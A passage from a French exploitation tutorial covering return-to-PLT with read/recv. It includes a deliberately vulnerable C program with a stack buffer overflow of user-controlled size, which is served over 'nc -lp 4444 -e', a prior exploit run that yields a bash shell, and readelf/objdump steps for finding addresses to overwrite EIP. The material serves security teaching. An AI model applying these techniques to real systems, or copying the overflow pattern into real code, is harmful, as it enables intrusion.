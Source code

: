 Testons :

```
	$ ./a.out "`perl sploit.pl`" 205
	bash-4.2$
```

## 0x03 Ret to PLT (read/recv...)

Utilité : Cette technique est très utile lorsqu'on est limité par la taille de notre payload. Elle peut également être utilisée pour copier ce que l'on souhaites en mémoire, en étant plus gêné par l'ASLR. Cette technique simplifie beaucoup de choses !
Principe : Il s'agit de retourner sur une fonction tel que read/recv, en réutilisant le descripteur de fichier du programme, afin de pouvoir envoyer des données (payload) vers la zone mémoire de notre choix.

Voici le programme utilisé pour illustrer la technique. Celui-ci tourne avec : nc -lp 4444 -e ./a.out :

```c
	#include <unistd.h>

	char buffer[256];

	void foo(int size) {
	char buff[256];

    	read(STDIN_FILENO, buff, size);
	}

	int main(int argc, char **argv) {

	    int size;

	    read(STDIN_FILENO, &size, sizeof(int));
	    foo(size);

	    return 0;
	}
```

L'objectif est d'écraser EIP avec l'adresse de read@plt. On aura alors plus qu'à envoyer notre shellcode pour jumper dessus.

Récupérons l'adresse d'une zone +W :

```
	$ readelf -S ./a.out | grep ".bss"
	  [25] .bss              NOBITS          08049720 00070c 000120 00  WA  0   0 32
```

Récupérons l'adresse de read@plt :

```
	$ objdump -d ./a.out | grep "<read@plt>:"
	080482d0 <read@plt>:
```
